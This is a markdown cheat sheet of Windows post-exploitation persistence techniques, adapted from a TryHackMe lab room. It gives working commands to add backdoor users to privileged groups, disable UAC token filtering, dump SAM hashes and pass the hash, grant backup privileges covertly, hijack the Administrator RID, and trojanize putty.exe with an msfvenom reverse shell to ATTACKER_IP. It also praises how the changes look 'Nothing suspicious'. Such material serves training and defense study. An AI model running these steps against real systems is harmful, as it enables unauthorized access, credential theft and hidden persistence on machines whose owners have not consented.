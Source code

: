 # Windows Persistance 
## Assign Group Memberships
- The direct way to make an unprivileged user gain administrative privileges is to make it part of the Administrators group. We can easily achieve this with the following command:
````
net localgroup administrators jack /add
````
- This will allow you to access the server by using RDP, WinRM or any other remote administration service available.
- Can also use the **Backup Operators** group. Users in this group won't have administrative privileges but will be allowed to **read/write any file or registry key** on the system, ignoring any configured DACL.
````
net localgroup "Backup Operators" jack /add
````
- Since this is an unprivileged account, it **cannot RDP or WinRM** back to the machine unless we **add it to the Remote Desktop Users (RDP) or Remote Management Users (WinRM)** groups. We'll use WinRM.
````
net localgroup "Remote Management Users" jack /add
````
- Check the groups and make sure they are not disabled 
````
whoami /groups
GROUP INFORMATION
-----------------
Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
````
- This is due to **User Account Control (UAC)**. One of the features implemented by UAC, `LocalAccountTokenFilterPolicy`, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session, if you are using WinRM, you are confined to a limited access token with no administrative privileges.
- Disable `LocalAccountTokenFilterPolicy` by changing the following registry key to 1:
````
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
````
## SAM SYSTEM Exfil / Pass The Hash
- We then proceed to make a backup of `SAM` and `SYSTEM` files and download them to our attacker machine:
````
reg save hklm\system system.bak
reg save hklm\sam sam.bak
````
- With those files, we can dump the password hashes for all users using secretsdump.py or other similar tools:
````
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
--snip--
````
- And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:
````
evil-winrm -i MACHINE_IP -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
````
## Special Privileges and Security Descriptors
- A similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership. 
- Special groups are only special because the operating system assigns them specific privileges by default. Privileges are simply the capacity to do a task on the system itself.
- Complete list of all privileges:
- https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants
- In the case of the Backup Operators group, it has the following two privileges assigned by default:
- `SeBackupPrivilege`: The user can read any file in the system, ignoring any DACL in place.
- `SeRestorePrivilege`: The user can write any file in the system, ignoring any DACL in place.
- We can assign such privileges to any user, independent of their group memberships. To do so, we can use the `secedit` command. First, we will export the current configuration to a temporary file:
````
secedit /export /cfg config.inf
````
- We open the file and add our user to the lines in the configuration regarding the SeBackupPrivilege and SeRestorePrivilege:
- ![765671a0355e2260c44e5a12a10f090e](https://user-images.githubusercontent.com/75596877/180827452-97d0b2b3-cd89-459f-95ee-4d5276a41516.png)
- We finally convert the `.inf` file into a `.sdb` file which is then used to load the configuration back into the system:
````
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
````
- You should now have a user with equivalent privileges to any `Backup Operator`. The user still can't log into the system via WinRM, so let's do something about it. 
- Instead of adding the user to the `Remote Management Users` group, we'll change the security descriptor associated with the WinRM service to allow `jack` to connect. 
- Think of a security descriptor as an ACL but applied to other system facilities.
- To open the configuration window for WinRM's security descriptor, you can use the following command in **Powershell (you'll need to use the GUI session for this)**:
````
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
````
- This will open a window where you can add `jack` and assign it full privileges to connect to WinRM:
- ![380c80b98c4d1f8c2149ef72427cfeb0](https://user-images.githubusercontent.com/75596877/180828110-e2645cd4-a708-4e8c-b4bf-186ab3d3749c.png)
- Notice that for this user to work with the given privileges fully, you'd have to change the `LocalAccountTokenFilterPolicy` registry key
- If you check your user's group memberships, it will look like a regular user. Nothing suspicious at all!
````
net user jack
User name                    jack

Local Group Memberships      *Users
Global Group memberships     *None
````
## RID Hijacking
- When a user is created, an identifier called Relative ID (RID) is assigned to them. 
- The `RID` is simply a numeric identifier representing the user across the system. When a user logs on, the `LSASS` process gets its `RID` from the `SAM` registry hive and creates an access token associated with that `RID`. 
- If we can tamper with the registry value, we can make windows assign an Administrator access token to an unprivileged user by associating the same RID to both accounts.
- In any Windows system, the default Administrator account is assigned the `RID = 500`, and regular users usually have `RID >= 1000`.
````
wmic useraccount get name,sid

Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
--snip--
````
- Now we only have to assign the `RID=500` to `jack`. To do so, we need to access the `SAM` using `Regedit`. The `SAM` is restricted to the `SYSTEM` account only, so even the `Administrator` won't be able to edit it. To run `Regedit` as `SYSTEM`, we will use `psexec`.
- `PsExec64.exe -i -s regedit`
From Regedit, we will go to:
- `HKLM\SAM\SAM\Domains\Account\Users\`
- We need to search for a key with its `RID` in hex `(1010 = 0x3F2)`. Under the corresponding key, there will be a value called `F`, which holds the user's effective `RID` at position `0x30`:
- ![d630140974989748ebcf150ba0696d14](https://user-images.githubusercontent.com/75596877/180829367-5257c90e-37bc-4773-9ae2-d1a9bbb0fdc5.png)
- Notice the RID is stored using little-endian notation, so its bytes appear reversed.
- We will now replace those two bytes with the RID of Administrator in hex (500 = 0x01F4), switching around the bytes (F401):
- ![8f2072b6d13b7343cf7b890586703ddf](https://user-images.githubusercontent.com/75596877/180829481-acd6a81c-fb14-480b-92c8-aa41539dc9f3.png)
- The next time `jack` logs in, `LSASS` will associate it with the same `RID` as Administrator and grant them the same privileges.
## Executable Files
- If you find any executable laying around the desktop, the chances are high that the user might use it frequently. 
- Suppose we find a shortcut to `PuTTY` lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.
````
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
````
## Shortcut Files













### Credit: 
All credit to the content of this page goes to the origional author
- https://tryhackme.com/room/windowslocalpersistence
- https://tryhackme.com/p/munra
- https://tryhackme.com/p/tryhackme




